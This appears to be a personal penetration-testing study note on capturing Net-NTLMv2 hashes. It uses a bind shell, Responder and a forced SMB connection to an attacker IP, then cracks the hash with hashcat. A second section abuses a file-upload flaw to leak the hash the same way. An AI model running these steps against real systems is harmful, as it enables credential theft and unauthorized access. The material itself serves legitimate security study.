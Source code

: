 ```yaml
---
layout: post
title: Net-NTLMv2
titledate: 09/12/23
tags: ["infosec","offsec", "password", "ntlm", "responder", "exploit"]
---
```


#### net-NTLMv2

sometimes we may gain access to a system as an unpriveleged user which means we cannot use tools like mimikatz

in this example we will assume we setup a bind shell on our target windows machine and connect to it 

    $ nc 192.168.50.50 4444

we can now check which user we are logged in as and what priveleges we have

    $ whoami

    $ net user ted

ted does not belong to the administrator group but does belong to the Remote Desktop Users group

because we do not have Admin privs we can not use mimikatz, but we can setup an smb server and use ted to attempt authentication
to capture his NTLM hash

    $ sudo responder -I tun0

next we want to provide an arbitrary share in order to catch ted's auth creds

if we visit our NC bind shell terminal to our first machine 

    C:\> dir \\192.168.119.2\test

in this example test does not exist

Responder will capture the hash so we can save it to ted.hash

and then find the hashcat mode 

    hashcat --help | grep -i "ntlm"

and using the NTLMv2 network protocol mode

    $ hashcat -m 5600 ted.hash /usr/share/wordlists/rockyou.txt --force

now we should be able to utilize the rdp protocol to connect with ted to the target machine with the cracked hash password

#### capturing ntlm via http upload vuln

in this example, the web server was vulnearble to a file upload vulnerability - while there was no executable php or asp code that could be achieved (as seen in the simple-backdoor.php file i attempted to upload), through this upload vuln we are able to pass the responder path to our non existing smb share to capture the ntlm hash

![_config.yml]({{ site.baseurl }}/images/exploitation/net_ntlm_file_upload.png)

after retrieving the hash via the method in the pic above we perform the last 2 hashcat steps mentioned in the steps above to get the password

